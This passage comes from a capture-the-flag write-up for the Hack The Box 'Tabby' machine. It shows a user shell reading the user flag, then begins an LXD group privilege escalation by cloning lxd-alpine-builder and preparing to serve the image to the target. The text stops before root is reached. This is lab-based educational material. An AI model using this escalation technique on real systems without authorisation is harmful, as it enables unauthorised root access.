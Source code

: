 ```shell
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd) 
ash@tabby:/home$ ls
ls
ash
ash@tabby:/home$ cd ash
ash@tabby:~$ ls 
ls
user.txt
ash@tabby:~$ cat user.txt
cat user.txt
a2cecc4071791*******************
```

## Privilege Escaltion

First when Find out user and group names and numeric ID's we've seen and attract my attention `lxd`
I don't know what `lxd` is, but after researching I found this [**article**](https://www.hackingarticles.in/lxd-privilege-escalation/) that is a member of the lxd group is able to escalate the root privilege by exploiting the features of `lxd`.
>Briefly: LXD is a root process that carries out actions for anyone with write access to the LXD UNIX socket. It often does not attempt to match the privileges of the calling user. There are multiple methods to exploit this.
okay let's got a `root`

First, we need this [**script**](https://github.com/saghul/lxd-alpine-builder) to create Alpine Linux images for their use with `lxd`.
```shell
ezi0x00@kali:~/HTB/Tabby$ git clone https://github.com/saghul/lxd-alpine-builder.git
Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 27, done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
Unpacking objects: 100% (27/27), 15.98 KiB | 251.00 KiB/s, done.
ezi0x00@kali:~/HTB/Tabby$ cd lxd-alpine-builder/
```
 It will create a tar.gz file as shown below
 ```shell
 ezi0x00@kali:~/HTB/Tabby/lxd-alpine-builder$ ls 
alpine-v3.12-x86_64-20201107_0534.tar.gz  build-alpine  LICENSE  README.md
```
we need to send it to tabby machine i will use `SimpleHTTPServer` in python.
![website](/assets/img/Posts/alpine.png)